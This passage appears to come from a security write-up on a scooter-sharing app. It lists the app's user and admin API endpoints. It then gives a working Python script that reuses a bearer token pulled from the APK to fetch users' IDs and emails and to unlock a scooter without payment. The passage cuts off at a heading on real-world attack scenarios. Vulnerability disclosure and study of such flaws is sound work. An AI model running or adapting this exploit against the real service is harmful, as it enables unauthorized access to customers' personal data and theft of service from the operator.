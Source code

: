**User Operations:**
- `GET /api/application/users`
- `GET /api/application/users/wallet`
- `GET /api/application/users/rents`

**Admin Operations:**
- `POST /api/application/vehicles/unlock/admin`
- `POST /api/application/vehicles/freefloat/lock/admin`

### Step 4: Token Validation and Usage
```python
# Example of how extracted tokens could be used
import requests

# Extracted from APK analysis
BEARER_TOKEN = "eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9..."  # From APK
API_BASE_URL = "https://api.knotcity.io"

headers = {
    "Authorization": f"Bearer {BEARER_TOKEN}",
    "Content-Type": "application/json",
    "User-Agent": "Knot-mayndrive v1.1.34 (android)"
}

# Test token validity
response = requests.get(f"{API_BASE_URL}/api/application/users", headers=headers)
if response.status_code == 200:
    print("✅ Token is valid - can access user data")
    user_data = response.json()
    print(f"User ID: {user_data.get('id')}")
    print(f"Email: {user_data.get('email')}")

# Unlock scooter without payment
unlock_payload = {
    "serial_number": "SN12345",
    "lat": 40.7128,
    "lng": -74.0060
}

response = requests.post(
    f"{API_BASE_URL}/api/application/vehicles/unlock",
    json=unlock_payload,
    headers=headers
)

if response.status_code == 200:
    print("🚨 CRITICAL: Scooter unlocked without payment!")
```

## 🎯 Real-World Attack Scenarios
